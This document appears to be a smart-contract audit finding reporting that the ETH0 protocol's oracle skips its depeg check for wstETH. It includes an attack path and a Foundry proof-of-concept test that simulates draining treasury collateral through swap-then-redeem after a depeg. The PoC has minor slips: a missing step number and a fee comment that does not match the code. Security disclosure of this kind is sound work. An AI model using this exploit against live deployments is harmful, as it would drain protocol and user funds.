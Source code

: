 Elegant Grape Swift

High

# wstETH is not a stablecoin, so the depegging check will be skipped even if wstETH has extremely depegged

### Summary

`AbstractOracle` and its derived contract `ClassicalOracle` skip the depegging check if the token is not a stablecoin (which is the case with wstETH), even tho wstETH should maintain a close peg to ETH. So this check will be useless and the operation will always proceed even if wstETH has extremely depegged, allowing malicious users to exploit it for their advantage.

### Root Cause

In [`AbstractOracle.sol:106`](https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/src/oracles/AbstractOracle.sol#L106) there is a check to prevent the use of depegged assets by using the `_checkDepegPrice()` function. Here's the function :
```solidity
    /// @notice Check if a given token's price is around 1 ETH
    /// @dev    Reverts if the stablecoin(in the context of ETH) has depegged.
    /// @dev    The allowed range is determined by maxDepegThreshold.
    /// @param  token         The address of the token.
    /// @param  wadPriceInETH The price of the token returned by the underlying oracle.
    function _checkDepegPrice(address token, uint256 wadPriceInETH) internal view {
        AbstractOracleStorageV0 storage $ = _abstractOracleStorageV0();

        // Skip the check if the token is not a stablecoin
        if (!$.tokenToOracleInfo[token].isStablecoin) return;

        uint256 threshold = Math.mulDiv($.maxDepegThreshold, SCALAR_ONE, BASIS_POINT_BASE);

        if (wadPriceInETH > SCALAR_ONE + threshold || wadPriceInETH < SCALAR_ONE - threshold) {
            revert StablecoinDepeg();
        }
    }
```

Notice that the function returns without checking if the token is not a stablecoin, and the in-scope token wstETH is **NOT** a stabelcoin, but it should keep a close peg to ETH. (for reassurance, if you look at the FinalConfig deployment script written by the developers, you can see that they set isStablecoin to `false` when it comes to wstETH - [see here](https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/scripts/deployment/FinalConfig.s.sol#L43)). 

So this means even if wstETH has **extremely** depegged from ETH, this function will still proceed with absolutely no issue, causing the use of depegged assets and allowing malicious users to exploit it for their advantage.

### Internal Pre-conditions

N/A.

### External Pre-conditions

Can be exploitable only in case of a depeg.

### Attack Path

1. Bob swaps 1000 wstETH for ETH0 at 1 wstETH = 1 ETH.
2. wstETH depegs to 1 wstETH = 0.5 ETH.
4. Bob notices the opportunity to make profit.
5. Bob redeems 1000 ETH0 for wstETH, he will get approximately 2000 wstETH since `_checkDepegPrice()` will skip the depegging check.
6. Bob waits for wstETH to regain its peg, and will end up with a 1000 ETH profit in value.
7. Bob has effectively made profit off the back of the protocol.

### Impact

- Financial loss to the protocol since the user will end up with a significant gain of value when the token regains its peg.
- Since `redeem()` returns collateral based on the current price, this can lead to draining the balance of the treasury of that collateral token.

### PoC
Put the following test under `./test/PoC.t.sol` :

```solidity
// SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import "forge-std/console.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {Pausable} from "openzeppelin-contracts/utils/Pausable.sol";
import {IERC20} from "openzeppelin-contracts/token/ERC20/IERC20.sol";
import {IERC20Metadata} from "openzeppelin-contracts/token/ERC20/extensions/IERC20Metadata.sol";
import {IUSDC} from "test/interfaces/IUSDC.sol";
import {SetupTest} from "./setup.t.sol";
import {IRwaMock} from "src/interfaces/token/IRwaMock.sol";
import {RwaMock} from "src/mock/rwaMock.sol";
import {MyERC20} from "src/mock/myERC20.sol";
import {Eth0} from "src/token/Eth0.sol";
import {IERC20Errors} from "openzeppelin-contracts/interfaces/draft-IERC6093.sol";
import {Normalize} from "src/utils/normalize.sol";
import {Math} from "openzeppelin-contracts/utils/math/Math.sol";
import {IOracle} from "src/interfaces/oracles/IOracle.sol";
import {DaoCollateral} from "src/daoCollateral/DaoCollateral.sol";
import {IERC20Permit} from "openzeppelin-contracts/token/ERC20/extensions/IERC20Permit.sol";
import {SigUtils} from "test/utils/sigUtils.sol";
import {
    MAX_REDEEM_FEE,
    SCALAR_ONE,
    BASIS_POINT_BASE,
    ONE_YEAR,
    STETH,
    WSTETH
} from "src/constants.sol";
import {
    SameValue,
    AmountTooLow,
    AmountTooBig,
    CBRIsTooHigh,
    CBRIsNull,
    RedeemMustNotBePaused,
    RedeemMustBePaused,
    SwapMustNotBePaused,
    SwapMustBePaused,
    RedeemFeeTooBig,
    NoOrdersIdsProvided,
    InvalidSigner,
    ExpiredSignature,
    InvalidDeadline,
    ApprovalFailed,
    RedeemFeeCannotBeZero
} from "src/errors.sol";
import "@openzeppelin/contracts/mocks/ERC1271WalletMock.sol";

contract DepegExploitTest is SetupTest {
    ERC1271WalletMock public erc1271Mock;

    /*//////////////////////////////////////////////////////////////
                            1. SETUP & HELPERS
    //////////////////////////////////////////////////////////////*/
    function setUp() public virtual override {
        uint256 forkId = vm.createFork("eth");
        vm.selectFork(forkId);
        super.setUp();

        erc1271Mock = new ERC1271WalletMock(alice);
        vm.deal(alice, 1 ether);
    }

    function testDepegExploit() public {
        // Setup wstETH as collateral
        address wstETH = address(WSTETH);
        vm.label(wstETH, "WSTETH Forked");
        if (!tokenMapping.isEth0Collateral(wstETH)) {
            vm.prank(admin);
            tokenMapping.addEth0CollateralToken(wstETH);
        }
        Eth0 eth0Token = stbcToken;
        whitelistPublisher(wstETH, address(eth0Token));
        _setupBucket(wstETH, address(eth0Token));
        _setOraclePrice(wstETH, 1e18); // 1 wstETH = 1 ETH
        console.log("Initial wstETH price: 1 ETH");

        // Fund attacker (bob)
        deal(wstETH, bob, 1000e18); // 1000 wstETH
        deal(wstETH, treasury, 1000e18); // Treasury collateral
        deal(address(eth0Token), treasury, 1000e18); // Treasury ETH0 for redeem
        console.log("Bob wstETH balance:", IERC20(wstETH).balanceOf(bob) / 1e18, "wstETH");
        console.log("Treasury wstETH balance:", IERC20(wstETH).balanceOf(treasury) / 1e18, "wstETH");
        console.log("Treasury ETH0 balance:", eth0Token.balanceOf(treasury) / 1e18, "ETH0");

        // Step 1: Bob swaps 1000 wstETH for ETH0 at 1 wstETH = 1 ETH
        vm.startPrank(bob);
        IERC20(wstETH).approve(address(daoCollateral), 1000e18);
        daoCollateral.swap(wstETH, 1000e18, 900e18); // Get ~1000 ETH0
        uint256 eth0Balance = eth0Token.balanceOf(bob);
        console.log("After swap - Bob ETH0 balance:", eth0Balance / 1e18, "ETH0");
        console.log("After swap - Bob wstETH balance:", IERC20(wstETH).balanceOf(bob) / 1e18, "wstETH");
        console.log("After swap - Treasury wstETH balance:", IERC20(wstETH).balanceOf(treasury) / 1e18, "wstETH");
        assertApproxEqAbs(eth0Balance, 1000e18, 1e15); // ~1000 ETH0
        assertEq(IERC20(wstETH).balanceOf(treasury), 2000e18); // Treasury gains 1000 wstETH
        vm.stopPrank();

        // Step 2: wstETH depegs to 1 wstETH = 0.5 ETH
        _setOraclePrice(wstETH, 0.5e18); // 1 wstETH = 0.5 ETH
        console.log("Depegged wstETH price:", classicalOracle.getPrice(wstETH) / 1e18, "ETH");
        assertEq(classicalOracle.getPrice(wstETH), 0.5e18);

        // Step 3: Bob redeems 1000 ETH0 for wstETH
        vm.startPrank(bob);
        eth0Token.approve(address(daoCollateral), eth0Balance);
        daoCollateral.redeem(wstETH, eth0Balance, 0); // Redeem ~1000 ETH0
        uint256 wstETHReceived = IERC20(wstETH).balanceOf(bob);
        // Calculate expected wstETH: (eth0Balance * 999 / 1000) / 0.5 = eth0Balance * 999 / 1000 * 2
        uint256 expectedWstETH = (eth0Balance * 999 / 1000) * 2; // 1% fee, 0.5 ETH price
        console.log("Bob received wstETH:", wstETHReceived / 1e18, "wstETH");
        console.log("Expected wstETH:", expectedWstETH / 1e18, "wstETH");
        console.log("Bob ETH0 balance:", eth0Token.balanceOf(bob) / 1e18, "ETH0");
        console.log("Treasury wstETH balance:", IERC20(wstETH).balanceOf(treasury) / 1e18, "wstETH");
        assertApproxEqAbs(wstETHReceived, expectedWstETH, 1e15); // ~1998 wstETH
        assertEq(eth0Token.balanceOf(bob), 0); // No ETH0 left
        assertApproxEqAbs(IERC20(wstETH).balanceOf(treasury), 2000e18 - expectedWstETH, 1e15); // Treasury loses ~1998 wstETH
        vm.stopPrank();

        // Impact: Bob got ~1998 wstETH (worth ~999 ETH at depegged price of 0.5 ETH).
        // If wstETH price recovers to 1 ETH, Bob's 1998 wstETH is worth 1998 ETH, a net gain.
        // Treasury lost ~1998 wstETH (worth 999 ETH at depegged price) for 1000 ETH0 burned, a net loss.
        console.log("Impact - Bob's wstETH value if recovers to 1 ETH:", wstETHReceived / 1e18, "ETH");
    }
}
```

### Mitigation

Don't check only for stablecoins, but for all tokens that should keep a peg.